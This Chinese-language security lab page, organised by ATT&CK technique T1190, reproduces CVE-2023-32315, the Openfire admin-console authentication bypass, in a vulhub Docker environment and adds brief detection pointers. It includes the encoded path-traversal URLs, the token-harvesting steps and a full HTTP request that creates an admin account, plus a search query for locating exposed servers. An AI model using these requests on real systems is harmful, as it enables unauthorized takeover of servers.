 # T1190-CVE-2023-32315-Openfire管理后台认证绕过

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Openfire是根据开放源Apache许可获得许可的实时协作（RTC）服务器。

在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。

空间测绘查询语句：body="Openfire"

参考链接：

- <https://www.zhousa.com/archives/24514.html>
- <https://www.christ1na.cn/index.php/2023/06/26/cve-2023-32315-openfire%E7%AE%A1%E7%90%86%E5%90%8E%E5%8F%B0%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/>
- <https://cn-sec.com/archives/1854597.html>

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

漏洞环境使用vulhub docker环境

执行如下命令启动一个4.7.4版本的Openfire:

```yml
docker-compose up -d
```

服务器启动后，访问http://your-ip:9090你将会被强制跳转到登录页面。

### 漏洞复现

#### 步骤1，验证漏洞是否存在

启动openfire服务器后，访问以下路径，验证漏洞是否存在。

```
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

成功未授权访问日志文件，证明存在Openfire管理后台认证绕过漏洞

#### 步骤2，获取JSESSIONID和csrftoken

访问以下路径，获取获取JSESSIONID和csrftoken

```
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/user-groups.jsp

http://localhost:9090/login.jsp?url=%2F%2Fsetup%2Fsetup-s%2F%25u002e%25u002e%2F%25u002e%25u002e%2Fuser-groups.jsp
```

#### 步骤3，构造数据包创建用户

构造数据包如下：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=admin&name=&email=&password=admin&passwordConfirm=admin&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```

更多利用方法，可参考链接中的内容。

POC地址：

- <https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass>

这里直接使用脚本进行模拟测试：

![脚本自动化](1.png)

## 测试留痕

![jsessionid](jsessionid.png)

![csrftoken](csrftoken.png)

流量包见同目录下pcap文件。

## 检测规则/思路

研判分析要点：

- 结合流量上下文，URL路径和返回信息
- 关注状态码信息，并非都是200

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2023-32315 Openfire管理后台认证绕过漏洞复现

<https://www.christ1na.cn/index.php/2023/06/26/cve-2023-32315-openfire%E7%AE%A1%E7%90%86%E5%90%8E%E5%8F%B0%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/>

盘点一下OpenFire的漏洞CVE-2023-32315

<https://104.149.12.130/index.php/2023/06/16/openfire-history.html#title-6>
